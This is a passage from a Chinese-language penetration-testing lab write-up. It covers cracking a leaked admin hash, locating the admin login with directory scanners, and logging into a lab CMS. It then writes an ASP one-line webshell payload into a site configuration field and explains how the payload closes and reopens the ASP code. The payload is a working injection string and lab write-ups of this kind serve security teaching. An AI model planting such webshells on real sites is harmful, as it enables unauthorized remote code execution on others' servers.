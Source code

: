 ## 敏感信息泄露

在本节末尾留个小彩蛋，细心的读者可能在上述注入点的页面底部发现了：

![leak](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/leak.png)

对的，你想的没错，管理员的 16 位密码哈希值，用 [MD5解密工具](http://www.dmd5.com/) 解密后的明文结果正是 `admin888`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/password.png)

# 0x03 获取后台登录地址

根据实验手册的提示，在实验工具箱的【目录扫描】->【御剑后台扫描工具】文件夹下打开工具，在 **域名** 处填上主站 URL `http://www.test.ichunqiu/`，点击 **开始扫描** 即可轻松获取后台登录地址 `/admin/login.asp`：

![yujian-scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/yujian-scan.png)

上节提到的明小子（Domain）注入工具也带有目录扫描功能，点击 **SQL注入 -> 管理入口扫描** 选项卡，在 **注入点** 处填上主站 URL，点击 **扫描后台地址** 同样能得到后台登录地址：

![domain-scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/domain-scan.png)

> 小贴士：通过这几次渗透实验可发现，大多 CMS 的默认后台登录地址为 `/admin`，因此在使用目录扫描工具前可先行尝试。

# 0x04 配置文件写入木马获取 webshell

第 2 题过后，随之而来的第 3 题又是一道选择题：「通过什么方式获得 webshell？」，这也同时是对接下来渗透的提示。

先用管理员账号 `admin` 与密码 `admin888` 登录后台：

![login-back](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/login-back.png)

根据题目的提示，寻找后台备份文件、文件上传处、内容填写框等能够插入木马的漏洞，但可惜的是，很快能发现**备份文件无效、文件上传无反应、大多文本框不能填写**，看来服务器限制了该账户的写入权限。

只剩下**写入配置文件**了，并在 **系统设置管理 -> 网站信息配置** 发现了配置文件更改处。问题又来了，写入木马的配置文件在哪读取？于是先在外网搜索到 CMS 的源码，在此目录中搜索 `conf` 等关键字，发现了 4 个目标文件：

![search-config](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/search-config.png)

经过逐一排查，最终确定其中的 `/inc/Config.asp` 与网站配置信息相关：

![inc-config](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/inc-config.png)

接下来尝试在任意一栏中写入 ASP 版的一句话木马 `"%><%Eval Request("cmd")%><%'`。**注意：`"%>` 是为了闭合前段 ASP 代码；`cmd` 是木马的请求参数；`<%'` 是为了开启后段 ASP 代码，并用单引号注释该行剩下的代码。**写入木马前，最好把栏中原有的配置信息删除，即可直观地判断是否写入成功。

以 **网站标题** 一栏为例，写入一句话木马：

![trojan-writing](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/trojan-writing.png)

写入后点击 **保存设置**，可见写入木马后该栏为空：

![trojan-written](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/trojan-written.png)
